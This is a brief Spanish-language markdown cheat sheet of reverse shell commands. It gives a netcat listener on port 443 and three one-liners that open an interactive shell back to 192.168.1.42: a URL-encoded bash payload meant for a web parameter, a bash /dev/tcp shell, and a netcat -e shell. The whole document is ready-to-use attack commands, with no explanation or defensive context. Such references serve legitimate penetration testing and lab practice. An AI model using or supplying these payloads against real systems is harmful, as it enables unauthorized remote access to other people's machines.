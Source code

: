 ## Escuchar con netcat

```
sudo nc -lvnp 443
```
## Bash -c para url web

```
bash+-c+"/bin/bash+-i+>%26+/dev/tcp/192.168.1.42/443+0>%261"
```

## Bash -c

```
/bin/bash -i >& /dev/tcp/192.168.1.42/443 0>&1
```

## Netcat -e

```
nc 192.168.1.42 443 -e /bin/bash
```
